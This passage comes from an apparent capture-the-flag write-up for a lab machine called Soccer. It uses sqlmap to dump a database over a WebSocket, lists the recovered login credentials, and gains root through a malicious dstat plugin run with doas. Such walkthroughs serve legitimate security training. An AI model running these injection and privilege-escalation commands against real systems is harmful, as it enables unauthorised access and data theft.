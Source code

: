 Now dump database

```
sqlmap -u 'ws://soc-player.soccer.htb:9091/' --data '{"id":"*"}' --batch --risk 3 --level 5 --dbms mysql --threads 10 --dump
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910155609.png)

And we got username and password
PlayerOftheMatch2022  player
Now we can ssh to the machine

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910155803.png)

## Privilege Escalation

now let's back to our linpeas scan and check for doas config

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910150004.png)

Found doas cheat sheet priv esc post
https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/doas/
and after few tries I got root access

```
echo 'import os; os.execv("/bin/sh", ["sh"])' >/usr/local/share/dstat/dstat_xxx.py

doas /usr/bin/dstat --xxx
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250910160648.png)